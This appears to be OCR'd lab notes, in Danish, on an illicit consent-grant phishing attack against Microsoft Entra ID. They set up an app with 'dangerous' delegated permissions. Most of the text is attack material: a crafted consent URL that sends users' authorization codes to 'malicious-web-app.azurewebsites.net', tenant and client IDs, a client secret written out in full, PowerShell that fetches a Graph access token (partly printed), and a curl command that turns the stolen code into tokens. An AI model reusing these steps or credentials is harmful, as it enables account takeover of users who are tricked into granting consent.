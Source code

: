 lavede en webapp i Entra ID (AzureAD) og tilføjede nogle lidt "farlige" delegated permissions til den.

https://login.microsoftonline.com/5dc7e152-c906-4d95-bd1a-bcf75eb3e939/oauth2/v2.0/authorize?client_id=675c27b6-e1ff-4a2c-924e-701186f97951&response_type=code&redirect_uri=https://malicious-web-app.azurewebsites.net/.auth/login/aad/callback&scope=User.ReadWrite&response_mode=query&prompt=consent

Tenant ID *(connection string)*
5dc7e152-c906-4d95-bd1a-bcf75eb3e939

Application (client) ID *(username)*
675c27b6-e1ff-4a2c-924e-701186f97951

client Secret (Malicious) *(password)*
eV68Q~WEECCIzSJKzATfkd2rly.Kxds1SFzNDbyg

Redirect URIs
https://malicious-web-app.azurewebsites.net/.auth/login/aad/callback


`https://login.microsoftonline.com/5dc7e152-c906-4d95-bd1a-bcf75eb3e939/oauth2/v2.0/authorize?client_id=675c27b6-e1ff-4a2c-924e-701186f97951&response_type=code&redirect_uri=https://malicious-web-app.azurewebsites.net/.auth/login/aad/callback&scope=User.ReadWrite&response_mode=query&prompt=consent`

**while connected in `Connect-AzAccount`**
$context = Get-AzContext

$token = (Get-AzAccessToken -ResourceUrl "https://graph.microsoft.com").Token

Write-Output $token = eyJ0eXAiOiJKV1QiLCJub25jZSI6InJObkdLbVU0WmF3R0YwaWxOVk1nMDM0TUdVa2pjOFRIY001QXVhd2t0UEUiLCJhbGciOiJSUzI1...



```bash
curl -X POST "https://login.microsoftonline.com/YOUR_TENANT_ID/oauth2/v2.0/token" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "client_id=675c27b6-e1ff-4a2c-924e-701186f97951" \
  -d "client_secret=YOUR_CLIENT_SECRET" \
  -d "grant_type=authorization_code" \
  -d "code=AUTHORIZATION_CODE_FROM_URL" \
  -d "redirect_uri=https://malicious-web-app.azurewebsites.net/.auth/login/aad/callback" \
  -d "scope=User.ReadWrite"
```